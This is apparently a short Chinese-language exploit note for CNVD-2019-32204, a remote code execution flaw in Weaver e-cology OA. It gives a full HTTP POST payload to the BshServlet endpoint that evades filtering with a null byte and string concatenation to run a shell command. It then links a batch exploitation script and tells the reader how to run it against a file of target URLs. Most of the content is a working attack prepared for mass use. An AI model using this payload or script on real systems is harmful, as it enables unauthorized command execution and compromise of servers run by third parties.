 利用POC: POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded
bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw

批量工具：
CNVD-2019-32204利用脚本： https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204
批量脚本执行： pip install requests python Weaver-Ecology-OA_RCE-exp.py  url.txt文件中 是url地址 需要带http协议 
